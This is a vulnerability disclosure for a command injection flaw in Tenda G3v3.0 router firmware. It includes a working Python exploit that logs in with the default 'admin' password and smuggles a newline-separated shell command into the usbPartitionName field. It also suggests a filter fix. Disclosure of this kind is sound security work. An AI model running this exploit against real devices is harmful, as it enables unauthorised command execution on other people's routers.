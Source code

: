 **First of all, you can see more detailed demonstration effects in exp.mkv**

## Affected Version
* <=Tenda-G3v3.0 V15.11.0.20

## Vulnerability Description
Tenda-G3v3.0 V15.11.0.20  was discovered to contain command injection  at url **/goform/umountUSBPartition**

## Vulnerability Details
In the function **formSetUSBPartitionUmount**, there is a **doSystemCmd("/usr/sbin/usb umount %s", (const char *)usbPartitionName);** instruction, the value of usbPartitionName comes from the user's post request.

![alt text](image.png)

The prod_system_param_valid function is in **libcommonprod.so**, and **its filtering is not complete because command injection can still be achieved through the escape character '\n'**

![alt text](image-1.png)

For example,**in the test.c function, '\n' is used for command injection**
![alt text](image-2.png)

**We can see that echo PWN!!! is successfully executed, so the same vulnerability exists in formSetUSBPartitionUmount.**

![alt text](image-3.png)

## exp
It should be noted that you need to login before accessing /goform/umountUSBPartition, so you need to login before posting the request.

```python
import requests

session = requests.Session()

login_url = "http://192.168.0.252/login/Auth"
headers = {
    "Host": "192.168.0.252",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.252",
    "Connection": "close",
    "Referer": "http://192.168.0.252/login.asp",
    "Cookie": "G3v3_user=",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i"
}

login_data = {
    "password": "YWRtaW4="  #base64 encoded 'admin'
}

response = session.post(login_url, headers=headers, data=login_data)

url = "http://192.168.0.252/goform/umountUSBPartition"
data = {"usbPartitionName": "\necho PWN!!! > /webroot/1.html\n"}
response = session.post(url, data=data)

print(response.text)
```

## Any suggested solutions to fix
**The filter list of the function prod_system_param_valid in libcommonprod.so should also be added '\n'**

